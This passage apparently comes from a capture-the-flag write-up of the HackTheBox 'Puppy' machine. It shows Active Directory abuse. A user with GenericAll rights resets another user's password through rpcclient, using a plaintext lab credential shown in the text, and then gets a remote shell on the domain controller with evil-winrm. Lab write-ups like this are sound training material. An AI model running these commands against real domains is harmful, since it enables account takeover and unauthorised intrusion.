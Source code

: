 Relunch the bloodhound scan we can see that the user Adam is enabled.

<figure><img src="../../../.gitbook/assets/image (263).png" alt=""><figcaption></figcaption></figure>





### Reset Adam's password with "GenericAll" priv

We can notice that the user `and.edwars` is inside a `Senior Devs`, that they have "GenericAll" privilege on `adam.silver` user.

So we can try to reset adam's password.

{% code title="Connect to rpcclient" %}
```bash
rpcclient -U PUPPY.HTB/ant.edwards 10.10.11.70
Password for [PUPPY.HTB\ant.edwards]: Antman2025!
```
{% endcode %}

{% code title="Change adam's pass" %}
```bash
setuserinfo2 adam.silver 23 'Password123!'
```
{% endcode %}

### Win-RM connection as Adam Silver

Now that we reseted the adam's password, make access to DC using `evil-winrm`

```bash
evil-winrm -i 10.10.11.70 -u 'adam.silver' -p 'Password123!'
```

### User.flag
